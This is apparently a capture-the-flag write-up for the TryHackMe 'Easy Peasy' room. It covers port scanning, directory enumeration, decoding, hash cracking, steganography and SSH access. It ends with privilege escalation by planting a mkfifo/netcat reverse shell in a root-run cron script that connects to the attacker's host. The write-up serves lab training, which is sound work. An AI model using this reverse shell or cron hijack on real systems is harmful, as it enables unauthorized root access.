

# Write-Up: Easy Peasy

This write-up will walk you through the thought process behind solving the challenge and the decisions made along the way.

## Basic Information

- CTF: [TryHackMe](https://tryhackme.com/room/easypeasyctf)
- Difficulty: Easy

## Description

Practice using tools such as Nmap and GoBuster to locate a hidden directory to get initial access to a vulnerable machine. Then escalate your privileges through a vulnerable cronjob.

## Approach

### Enumeration
First, we add the IP of the machine to our `/etc/hosts` file to use it during the challenge.

```bash
10.112.154.144 easypeasy.thm
```

Then we start a basic `nmap` scan with version discovery and the execution of standard scripts.

```bash
nmap -sC -sV easypeasy.thm

Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.16.1
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
```

We find one open port running an nginx web server on version `1.16.1`. Since `1` is the wrong answer to the question about how many ports are open, we start a broader scan on all ports.

```bash
nmap -p- easypeasy.thm    

Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE
80/tcp    open  http
6498/tcp  open  unknown
65524/tcp open  unknown
```

Now, we see `3` open ports. The other two are higher than 1000 and were therefore not apparent in the first scan. The standard scan only checks the first 1000 common ports. We scan specifically for these ports to see what is running on them.

```bash
nmap -sV easypeasy.thm -p 6498,65524

PORT      STATE SERVICE VERSION
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
```

We find SSH on an unusual port (other than 22) and another web server running `Apache`.

The websites just hold the standard opening page, so nothing interesting can be found here. Let's start enumerating the web server for further directories using `gobuster`. We start with the one on the standard port. We use the `common` word list and extend it by `php` and `txt`. This is just a personal preference.

```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://easypeasy.thm -x php,txt -r 
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
hidden               (Status: 200) [Size: 390]
index.html           (Status: 200) [Size: 612]
robots.txt           (Status: 200) [Size: 43]
robots.txt           (Status: 200) [Size: 43]
Progress: 13839 / 13839 (100.00%)
```

The `robots.txt` stores nothing of interest in this case and the `hidden` path just holds a picture. On the site, nothing else can be found. Let's dig deeper into this path.

```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://easypeasy.thm/hidden -x php,txt -r
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 390]
whatever             (Status: 200) [Size: 435]
Progress: 13839 / 13839 (100.00%)
```

We find another path, but `hidden/whatever` just shows an image as well. Inspecting the code of the website, we find an odd and hidden string.

```bash
<p hidden>ZmxhZ3tmMXJzN19mbDRnfQ==</p>
```

This looks very much like a `base64` encoded string. We can directly decode it in the console with the following command and find our first flag!

```bash
echo "ZmxhZ3tmMXJzN19mbDRnfQ==" | base64 -d
flag{<redacted>}  
```

Another deeper scan on this path does not reveal anything new, so we have to look somewhere else. We have a second web server to enumerate. Starting another `gobuster` scan is the entry point again.

```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://easypeasy.thm:65524 -x php,txt             
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 10818]
robots.txt           (Status: 200) [Size: 153]
Progress: 13839 / 13839 (100.00%)
```

### Hash Analysis and Cracking

We find another `robots.txt`, but this time the content is a bit odd.

```text
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```

The `User-Agent` string looks a lot like a hash. We can check what type of hash it is using the website [Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/). Our hash is most likely an `MD5` or `MD4` hash, which is good because these are unsafe and can be cracked.

My go-to tool for this task is CrackStation, but it cannot crack it. So I run `hydra` and `john` for both `MD5` and `MD4`, but again no result. After some research, I find another online tool which works. [md5hashing](https://md5hashing.net/) can crack the hash and reveals the second flag.

After this step, we get stuck for a while as we have no further clues. Finally, we find a hidden message in the source code of the `index.html` of the server on port `65524`.

```text
<p hidden="">its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu</p>
```

The beginning hints at a baseXX encoding, but base64 does not work. We could now try to guess the correct one, but we can also use the cipher identifier from [dcode](https://www.dcode.fr/cipher-identifier), which suggests `base62`. The same website can decode it for us and reveals another hidden directory.

```text
/n0th1ng3ls3m4tt3r
```

Before inspecting this website, we carefully check the whole info page and actually find another flag in plain sight. In the text, we find a flag containing an MD5 hash.

```text
flag{<redacted hash>}
```

We can crack it again with [md5hashing](https://md5hashing.net/). However, in the room the cracked version is not accepted. The length of the expected format matches the MD5 version of the flag, and that works. Not sure if this is by mistake.

Now, let's check out the found path. The website is just a picture again.


But in the source code, we find another hash-like string.

```text
940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81
```

From the room description, we get the hint that we have to use the provided word list to crack this hash. [Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/) tells us that it is a `SHA2-256` hash. Let's run `hashcat` against the hash with the given word list. We can look up the hash ID in [this](https://gist.github.com/CalfCrusher/6b87a738d0fe7b88e04f4a36eb6d722d) repo.

```bash
hashcat -m 1400 hash.txt pwList.txt 

Recovered........: 0/1 
```

So, the hash could not be recovered. The website only told us one possible hash type, so we cannot try more. But maybe there are other possibilities that are quite similar. To check the hash again for other types, we can use the tool `hash-identifier`.


```bash
hash-identifier                    
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81

Possible Hashes:
[+] SHA-256
[+] Haval-256

Least Possible Hashes:
[+] GOST R 34.11-94
[+] RipeMD-256
[+] SNEFRU-256
[+] ...
```

This gives us more possible hashes to try. For `Haval-256`, there is no corresponding `hashcat` ID. The next one is `gost`. We get the ID and start cracking the hash.

```bash
hashcat -m 6900 hash.txt pwList.txt
...
940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81:mypasswordforthatjob
...
Recovered........: 1/1
...
```

This time, `hashcat` could recover the `gost` hash and found us a password: `mypasswordforthatjob`.

We have no username, so we cannot use it on SSH yet. Here, I got stuck for a while figuring out where to use the password. With an extra tip, we notice that on the hidden website `/n0th1ng3ls3m4tt3r` there is an extra picture, not just the background. Maybe some hidden data is stored in that picture using steganography.

### Steganography

We download the picture and use the tool `steghide` to extract a hidden message. We enter the found password and can extract the hidden message.

```bash
steghide extract -sf binarycodepixabay.jpg          
Enter passphrase: 
wrote extracted data to "secrettext.txt".

cat secrettext.txt 
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
```

### Initial Access

We find a username and a password which looks binary encoded. [CyberChef](https://gchq.github.io/CyberChef) can handle this for us and reveal the password. Now, we have a set of credentials `boring`:`iconvertedmypasswordtobinary` and can try logging in via SSH. We have to keep the unusual SSH port in mind.

```bash
ssh boring@easypeasy.thm -p 6498

boring@kral4-PC:~$ ls
user.txt
boring@kral4-PC:~$ cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
```

On the server, we find the user flag, but it is rotated in some way. When rotation is mentioned in such a context, it brings us to the `Caesar Cipher`. We can use the `ROT13 Brute Force` module of `CyberChef` to test it. We find the correct flag with a rotation of 14.

### Privilege Escalation

Let's do our final steps in the direction of the root flag. With a check of `sudo -l`, we find that we are not allowed to use `sudo` at all. We have to find another way to escalate our privileges.

We can automate the process to search for such vectors using the tool [linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS). To get it onto the machine, we first start a small HTTP server using Python in the directory with the `linpeas` file.

```bash
python3 -m http.server 8000
```

Then we grab the file from the remote machine, make it executable, and run it.

```bash
boring@kral4-PC:/tmp$ wget http://192.168.170.203:8000/linpeas.sh
--2026-04-17 11:47:57--  http://192.168.170.203:8000/linpeas.sh
Connecting to 192.168.170.203:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 840085 (820K) [application/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                   100%[==============================================>] 820.40K  3.28MB/s    in 0.2s    

2026-04-17 11:47:58 (3.28 MB/s) - ‘linpeas.sh’ saved [840085/840085]

boring@kral4-PC:/tmp$ chmod +x linpeas.sh 
boring@kral4-PC:/tmp$ ./linpeas.sh 
```

`Linpeas` has a lot to say and we have to dig through it to find the interesting parts. We find an odd `cron job` run by root. This looks promising.



Let's see what this script does and if we can take advantage of it.

```bash
boring@kral4-PC:/tmp$ cd /var/www/
boring@kral4-PC:/var/www$ ls -la
...
-rwxr-xr-x  1 boring boring   33 Jun 14  2020 .mysecretcronjob.sh

boring@kral4-PC:/var/www$ cat .mysecretcronjob.sh
#!/bin/bash          
# i will run as root 
```

The script belongs to us, so we can alter it. Then it is run by root and therefore has root privileges. From here on, there are many ways to get the root flag. The first idea was to create a `flag.txt` in `/tmp` and let the script copy the flag there, but that did not work. So we stop guessing and instead get a reverse shell as root. We can generate one from [revshells](https://www.revshells.com/) and edit the file.

```bash
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.170.203 1337 >/tmp/f
```

Now, start a listener and wait for the shell to appear. This time it works, and the command for the shell is executed by root, giving us a root shell. From here, we first check if we are root. Then we go to the root directory and search for the flag file. It is named `.root.txt`. We finally find the root flag!

```bash
nc -lvnp 1337
listening on [any] 1337 ...
connect to [192.168.170.203] from (UNKNOWN) [10.112.131.109] 54984
# whoami
root                
# cd /root
# ls
# ls -la
total 40
drwx------  5 root root 4096 Jun 15  2020 .
drwxr-xr-x 23 root root 4096 Jun 15  2020 ..
-rw-------  1 root root  883 Jun 15  2020 .bash_history
-rw-r--r--  1 root root 3136 Jun 15  2020 .bashrc
drwx------  2 root root 4096 Jun 13  2020 .cache
drwx------  3 root root 4096 Jun 13  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15  2020 .root.txt
-rw-r--r--  1 root root   66 Jun 14  2020 .selected_editor
# cat .root.txt
flag{<redacted root flag>} 
```

## Takeaway

This challenge shows how important it is to go beyond basic enumeration when initial results seem limited. A standard `nmap` scan missed additional services, which were only discovered by scanning the full port range. Multiple web services required separate enumeration, where hidden content, encoding techniques, and unusual hints like manipulated `robots.txt` entries guided our further progress. 

Instead of relying on a single approach, combining different techniques such as decoding, hash identification, and cracking was necessary to move forward. When hashes could not be cracked directly, reconsidering the hash type led to success. The challenge also highlights the value of inspecting source code carefully and not overlooking seemingly insignificant details.

Finally, after gaining initial access, thorough enumeration with tools like `linpeas` revealed a misconfigured cron job. Exploiting writable scripts executed by root provided a straightforward path to privilege escalation. Overall, it reinforces the importance of broad enumeration, adapting approaches when stuck, and chaining small findings into a complete attack path.

